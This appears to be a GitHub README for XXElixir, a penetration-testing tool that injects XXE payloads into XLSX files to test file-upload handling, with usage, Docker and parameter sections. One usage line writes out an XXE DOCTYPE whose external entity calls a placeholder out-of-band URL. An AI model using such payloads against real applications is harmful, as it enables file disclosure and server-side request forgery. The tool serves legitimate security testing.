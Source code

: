 <p align="center">
    <img src="XXElixir.svg" height="50%" width="50%" Setfill=None>
</p>

<h1 align="center">
XXElixir 🧪
</h1>
<p align="center">
his tool is designed to test for file upload and XXE (XML External Entity) vulnerabilities by poisoning an XLSX file. It allows the user to inject custom XML content or specify an out-of-band URL to retrieve data from an external entity. The tool works by unzipping the input XLSX file, modifying the workbook.xml file to include the user-specified XML content or URL, and then zipping the modified directory back into a new XLSX file. The resulting file can be used to test for file upload and XXE vulnerabilities in web applications that accept XLSX files.
</p>


## Usage 🛠 

Poison .XLSX file ☣️
```
python3 --file test.xlsx --xxe "<\!DOCTYPE ShiftSecurityConsulting [ <\!ENTITY xxe SYSTEM 'http://out-of-band.url'> ]>" --output poisoned.xlsx
```
```
python3 --file test.xlsx --url https://shiftsecurityconsulting.com --output poisoned.xlsx
```

## Running from Docker 🐳

Build
```
docker build -t xxelixir .
```

Run
```
docker run -v $(pwd)/data:/data -ti xxelixir -f data/test.xlsx -u https://shiftsecurityconsulting.com -o /data/poisoned.xlsx
```


## Parameters 🧰 

Parameter | Description | Type
------------ | ------------- | -------------
--url / -u | The URL for out of band testing | String
--file / -f | Input XLSX file | File
--output / -o | Output file | File
--xxe |Custom XXE injection string | String

## Contact Me 📇

[LinkedIn - Milan Jovic](https://www.linkedin.com/in/milan-jovic-sec/)

[Shift Security Consulting - Secure Your Digital Future](https://shiftsecurityconsulting.com)

[Twitter - Milan Jovic](https://twitter.com/milanshiftsec)

#### Educational purposes only and cannot be used for law violation or personal gain.
#### The author of this project is not responsible for any possible harm caused by the materials of this project.

